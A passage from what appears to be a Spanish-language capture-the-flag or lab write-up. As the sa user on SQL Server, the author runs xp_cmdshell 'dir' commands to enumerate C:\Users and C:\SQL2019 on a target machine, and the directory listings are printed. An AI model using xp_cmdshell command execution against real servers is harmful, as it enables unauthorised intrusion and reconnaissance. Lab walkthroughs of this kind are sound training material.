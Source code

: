 ```bash
               0 File(s)              0 bytes          

               6 Dir(s)   3,222,851,584 bytes free     

NULL                              
```

##### Exploración del Directorio `Users`

Tras ejecutar `EXEC xp_cmdshell 'dir C:\Users'`, se han identificado los siguientes directorios bastante interesantes:

- **Administrator**
- **ryan**
- **sql_svc**

##### Investigando el Directorio "SQL2019"

Ejecutaremos el comando `EXEC xp_cmdshell 'dir C:\SQL2019\';`

```bash
QL (sa  dbo@master)> EXEC xp_cmdshell 'dir C:\SQL2019';
output                                                  
-----------------------------------------------------   
 Volume in drive C has no label.                        

 Volume Serial Number is 3705-289D                      

NULL                                                    

 Directory of C:\SQL2019                                

NULL                                                    

06/08/2024  03:07 PM    <DIR>          .                

06/08/2024  03:07 PM    <DIR>          ..               

01/03/2025  08:29 AM    <DIR>          ExpressAdv_ENU   

               0 File(s)              0 bytes           

               3 Dir(s)   3,217,264,640 bytes free 
```

Aqui encontramos el directorio  `ExpressAdv_ENU entonces vamos a realizar el comando 

```bash
SQL (sa  dbo@master)> EXEC xp_cmdshell 'dir C:\SQL2019\ExpressAdv_ENU';
output                                                            
---------------------------------------------------------------   
 Volume in drive C has no label.                                  

 Volume Serial Number is 3705-289D                                

NULL                                                              

 Directory of C:\SQL2019\ExpressAdv_ENU                           

NULL                                                              

01/03/2025  08:29 AM    <DIR>          .                          

01/03/2025  08:29 AM    <DIR>          ..                         

06/08/2024  03:07 PM    <DIR>          1033_ENU_LP                

```